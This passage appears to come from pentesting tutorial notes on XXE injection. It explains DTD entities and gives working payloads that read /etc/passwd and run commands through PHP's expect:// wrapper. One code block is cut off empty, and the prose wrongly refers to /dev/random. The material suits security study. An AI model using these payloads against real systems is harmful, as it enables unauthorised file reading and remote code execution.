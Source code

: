 So, when you define your DTD you can basically create variables, in xml-speak a variable is an ENTITY.

In a DTD an entitiy is defined like this:


```
<!DOCTYPE root [
<!ENTITY name "PELLE">
]>
<root>&name;</root>
```

When the XML is parsed the entity will be transformed into "PELLE". Of course, you can also retreive external entities.



```
<!DOCTYPE root [
<!ENTITY name SYSTEM "file:///etc/passwd">
]>
<root>&name;</root>
```


```
<!DOCTYPE root [
<

]>
```

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The elemet can be whatever, it doesn't matter. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
